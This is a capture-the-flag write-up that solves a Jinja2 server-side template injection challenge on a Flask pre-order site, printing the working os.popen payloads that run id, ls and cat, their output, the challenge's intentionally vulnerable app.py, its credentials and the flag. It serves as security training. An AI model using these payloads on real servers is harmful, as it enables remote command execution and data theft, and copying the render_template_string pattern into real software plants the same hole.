




# O2.1: Touchy Templates
**Objective:** Confirm SSTI vulnerability and retrieve sensitive data.

**Difficulty:** Medium (300 points)

**Category:** Server-Side Template Injection, Web Exploitation

## Materials and References
- **Provided:**
    - Link: HyperNova pre-order website
    - Credentials:
        - Username: `WICYS2025`
        - Password: `A9f#X2qL8p@Z7rVm`
- **Tools Used:**
    - Web Browser
- **References:**
    - [PortSwigger: Server Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
    - [OWASP: Server Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
    - [GitHub Repo: Server Side Template Injection - jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)

## Flag Format
FLAG{...}

## Write-Up

The provided credentials were used to log into HyperNova pre-order website.

<p align="center">
  
</p>

The website has a misconfiguration and allows SSTI (Server Side Template Injection).

Initial injection testing was done using `{{7*7}}` for the name field. The email field required a valid email address, so injection could not be performed in that field.

The response message showed the calculation:
> Thanks for your interest. We have added **49** to the waitlist and will contact you at the provided email address if selected for a pre-order.

<p align="center">
  
  
</p>


After confirming a simple injection, the next test was an SSTI exploit. From the GitHub reference, ran the command that will exploit the SSTI by calling `os.popen().read()`:
```Python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Returned
```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Since the `id` command executed successfully, other commands were tested with `.popen()`. The `ls` command was ran next to list the directory contents:
```Python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

Returned
```text
app bin boot dev etc home lib lib64 media mnt no-write opt proc root run sbin srv sys tmp usr var 
```

Focus shifted to investigating files within the directory, using `ls` and `cat` commands. Directories explored included:
- `/tmp`
- `/etc`
- `/home`

There were some failed attempts that returned `Internal Server Error`.
> **Note (post-analysis):** This was caused by syntax error. Copying and pasting commands from notes lead to mistakes, such as `__init__` appearing as `init`. After correcting the syntax, the command executed properly.

<p align="center">
  
</p>

The directory `/app` was investigated:
```Python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /app').read() }}
```

Returned 
```text
Dockerfile app.py requirements.txt sitecustomize.py static templates
```

Each file in `/app` was analyzed. The file `/app/app.py` contained the flag.
```Python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /app/app.py').read() }}
```

Returned
```Python
from flask import Flask, request, Response, render_template, render_template_string import sitecustomize app = Flask(__name__, template_folder="templates", static_folder="static") BASIC_USER = "WICYS2025" BASIC_PASS = "A9f#X2qL8p@Z7rVm" ADMIN_PASS = "FLAG{NoConsoleForYou!}" def _unauthorized(): return Response( "Authentication required.", 401, {"WWW-Authenticate": 'Basic realm="Beta Access"'}, ) @app.before_request def require_basic_auth(): if request.path.startswith("/static/"): return auth = request.authorization if not auth or auth.type != "basic": return _unauthorized() if not (auth.username == BASIC_USER and auth.password == BASIC_PASS): return _unauthorized() @app.route("/", methods=["GET"]) def index(): base = open("templates/index.html").read() name = (request.args.get("name") or "").strip() email = (request.args.get("email") or "").strip() if name and email: # INTENTIONAL SSTI: name is interpolated directly into template source. result_html = f""" <div class="result-card neon-card"> <h2 class="result-title">Transmission Received</h2> <p class="lead"> Thanks for your interest. We have added <strong>{name}</strong> to the waitlist and will contact you at the provided email address if selected for a pre-order. </p> </div> """ page = base.replace("<!-- RESULT -->", result_html) return render_template_string(page) # No data submitted, render vanilla page return render_template_string(base)
```

The `ADMIN_PASS` value was the challenge flag.
> ADMIN_PASS = "FLAG{NoConsoleForYou!}"

**Flag**: `FLAG{NoConsoleForYou!}`